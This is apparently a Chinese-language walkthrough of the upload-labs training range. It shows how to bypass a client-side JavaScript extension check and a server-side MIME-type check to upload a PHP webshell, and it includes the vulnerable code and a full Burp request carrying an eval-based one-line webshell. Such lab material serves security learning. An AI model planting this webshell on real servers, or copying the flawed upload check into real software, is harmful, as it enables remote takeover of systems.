 # 攻击靶场练习

## 准备工作

靶场源代码

- [upload-labs](https://github.com/c0ny1/upload-labs) 可利用docker 跑起来

抓包工具
- [Burp Suite 社区版本](https://portswigger.net/burp/communitydownload) 社区版本即可

中国蚁剑
- [antSword](https://github.com/AntSwordProject/antSword)
- [使用文档](https://www.yuque.com/antswordproject/antsword/ff5pl5)


## 练习

### 第一题：上传一个webshell到服务器。
限制： 这个题目只有在前端控制了是否能上传 （该文件不允许上传，请上传.jpg|.png|.gif类型的文件,当前文件类型为：.php）
破解： 移除js的控制（换句话来说，去掉javascript使用）可上传

```js
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```


### 第二题：后端限制了上传类型

```js
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

可利用burp suit抓包工具 抓到该请求，然后修改context-type 重新发送请求

```md
POST /Pass-02/index.php HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7445055365470728562651083717
Content-Length: 367
Origin: http://localhost:8000
Connection: close
Referer: http://localhost:8000/Pass-02/index.php
Cookie: _horizon_uid=d0e649d9-848b-4d52-be8e-92c947add7b2; ts_uid=1096465488
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------7445055365470728562651083717
Content-Disposition: form-data; name="upload_file"; filename="ant.php"
Content-Type: image/gif (此处为修改位置)

<?php eval($_POST['ant']); ?>

-----------------------------7445055365470728562651083717
Content-Disposition: form-data; name="submit"

上传
-----------------------------7445055365470728562651083717--
```